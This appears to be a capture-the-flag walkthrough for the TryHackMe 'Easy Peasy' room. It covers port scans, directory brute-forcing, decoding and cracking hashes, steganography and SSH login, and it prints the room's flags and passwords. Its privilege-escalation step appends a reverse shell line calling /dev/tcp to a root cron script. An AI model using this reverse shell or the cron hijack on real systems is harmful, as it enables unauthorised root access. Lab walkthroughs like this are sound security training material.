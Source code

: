 # Easy Peasy

**Room Link:** [https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 5698 and 65524 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>



## Flag #1

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (7) (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (10) (4).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" |base64 -d
```

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

## Flag #2

**Kali**

```
curl http://$VICTIM:65524/robots.txt
```



<figure><img src="../../.gitbook/assets/image (8) (3).png" alt=""><figcaption></figcaption></figure>



[https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

## Flag #3&#x20;

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

## Hidden Directory

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>



**CyberChef**: [https://gchq.github.io/CyberChef/#recipe=From\_Base62('0-9A-Za-z')\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1](https://gchq.github.io/CyberChef/#recipe=From\_Base62\('0-9A-Za-z'\)\&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1)

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>



## Crack the Hash

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python hash-id.py 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Format turned out to be GOST

**Kali**

```
john --wordlist=easypeasy.txt --format=GOST hash.txt
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



## SSH Password

**Kali**

```
wget http://$VICTIM:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
steghide extract -sf binarycodepixabay.jpg 
Password: mypasswordforthatjob
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.rapidtables.com/convert/number/binary-to-ascii.html](https://www.rapidtables.com/convert/number/binary-to-ascii.html)

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh boring@$VICTIM:6498
Password: iconvertedmypasswordtobinary
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

## User Flag

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://www.dcode.fr/caesar-cipher](https://www.dcode.fr/caesar-cipher)

<figure><img src="../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Victim**

```
cat /etc/crontab
cd /var/www/
ls -lah
```

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "sh -i >& /dev/tcp/$KALI/1337 0>&1" >> .mysecretcronjob.sh
```

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>



















































